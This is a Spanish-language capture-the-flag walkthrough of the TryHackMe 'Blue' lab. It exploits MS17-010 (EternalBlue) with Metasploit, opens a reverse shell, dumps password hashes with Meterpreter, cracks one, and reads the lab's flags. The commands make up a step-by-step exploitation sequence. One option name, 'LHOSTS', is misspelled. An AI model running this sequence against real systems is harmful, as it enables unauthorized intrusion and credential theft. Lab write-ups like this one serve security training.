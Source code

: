 ### **Tutorial: Explotación de la vulnerabilidad MS17-010 (EternalBlue) en THM**

---

### **Paso 1: Escaneo de puertos con Nmap**

Ejecutamos el siguiente comando para escanear los servicios en la máquina objetivo:

```bash
nmap -sC -sV 10.10.95.71
```

![](Imagenes/2.png)

**Nota:** EternalBlue es una vulnerabilidad en Microsoft Windows explotada por la NSA antes de ser revelada públicamente. Permite a un atacante obtener acceso remoto a computadoras vulnerables.

En el escaneo, encontramos **3 puertos abiertos por debajo de 1000**.

![](Imagenes/3.png)

---

### **Paso 2: Buscar y seleccionar el exploit en Metasploit**

Ejecutamos **msfconsole** y buscamos el exploit para la vulnerabilidad MS17-010 con:

```bash
search ms17-010
```

![](Imagenes/27.png)

La ruta completa del código del exploit es:

```bash
exploit/windows/smb/ms17_010_eternalblue
```

![](Imagenes/1.png)

Seleccionamos el exploit con:

```bash
use 0
```

Después, configuramos el payload:

```bash
set payload windows/x64/shell/reverse_tcp
```

Mostramos las opciones con:

```bash
show options
```

![](Imagenes/4.png)

---

### **Paso 3: Configurar parámetros y ejecutar el exploit**

Definimos la IP de la máquina víctima:

```bash
set RHOSTS 10.10.95.71
```

![](Imagenes/6.png)

Definimos nuestra IP en la VPN de THM:

```bash
set LHOSTS <tu_ip_vpn>
```

![](Imagenes/10.png)

Ejecutamos el exploit:

```bash
run
```

![](Imagenes/11.png)

Una vez dentro de la máquina víctima, verificamos la IP con:

```bash
ipconfig
```

![](Imagenes/12.png)

Colocamos la sesión en segundo plano con:

```bash
Ctrl + Z
```

![](Imagenes/13.png)

Revisamos las sesiones activas:

```bash
sessions -l
```

![](Imagenes/16.png)

Ingresamos a Meterpreter con:

```bash
sessions -i 2
```

![](Imagenes/18.png)

Ahora que tenemos privilegios elevados, ejecutamos:

```bash
hashdump
```

![](Imagenes/19.png)

Copiamos el hash y lo crackeamos en **Crackstation.net**.

![](Imagenes/20.png)

Contraseña obtenida: **alqfna22**

---

### **Paso 4: Obtención de las flags**

#### **Primera Flag**

Nos movemos a la raíz del sistema:

```bash
meterpreter > cd /
meterpreter > dir
```

![](Imagenes/21.png)

Leemos la flag:

```bash
meterpreter > cat flag1.txt
```

Flag obtenida: **1/3**

---

#### **Segunda Flag**

Nos dirigimos a la nueva ruta indicada:

![](Imagenes/22.png)

Leemos la flag:

```bash
meterpreter > cat flag2.txt
```

Flag obtenida: **2/3**

---

#### **Tercera Flag**

Vamos a la ruta indicada:

![](Imagenes/24.png)

Leemos la flag:

```bash
meterpreter > cat flag3.txt
```

Flag obtenida: **3/3**

---

### **Conclusión**

Hemos completado la explotación de la máquina **BLUE** en TryHackMe, utilizando **EternalBlue (MS17-010)** para obtener acceso, escalar privilegios y extraer información clave.

**Objetivos logrados:**
+ ✅ Identificación de puertos abiertos.
+ ✅ Explotación de vulnerabilidad SMB.
+ ✅ Acceso a la máquina con Meterpreter.
+ ✅ Extracción de credenciales.
+ ✅ Obtención de todas las flags.

![](Imagenes/26.png)
